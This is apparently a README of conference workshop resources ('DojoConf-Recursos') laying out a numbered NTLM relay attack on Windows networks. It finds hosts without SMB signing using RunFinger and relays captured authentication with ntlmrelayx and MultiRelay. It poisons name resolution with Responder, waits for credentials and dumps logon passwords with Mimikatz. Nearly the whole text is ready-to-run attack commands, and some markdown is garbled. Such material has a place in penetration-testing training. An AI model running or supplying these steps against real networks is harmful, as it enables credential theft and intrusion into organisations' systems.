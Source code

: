 # DojoConf-Recursos

comando de Busqueda herramientas:
```
find /usr/share/responder/ -name "MultiRelay.py" -print
```

1. Identify network systems that do not require SMB message validation
```
Run python  **RunFinger.py -i IP_Range** to detect machine with SMB signing:disabled.
```
2. Configure Impacket’s NTLMrelayx to target those systems
```
echo "IP"  >> targets.txt**
 ```   
 ```
 python MultiRelay.py -t <target_machine_IP> -u ALL
 ntlmrelayx.py -tf targets.txt --smb2support**
 ```
3. Disable SMB and HTTP response poisoning in Responder and launch
```
cd /usr/share/responder
```
```
gedit Responder.conf
```
4. Open the Responder.conf file and set the value of SMB and HTTP to Off
```
Responder.py** -I eth0 -rdw
```
5. Wait for creds
6. Invoke standard Mimikatz
```
mimi sekurlsa::logonpasswords
```



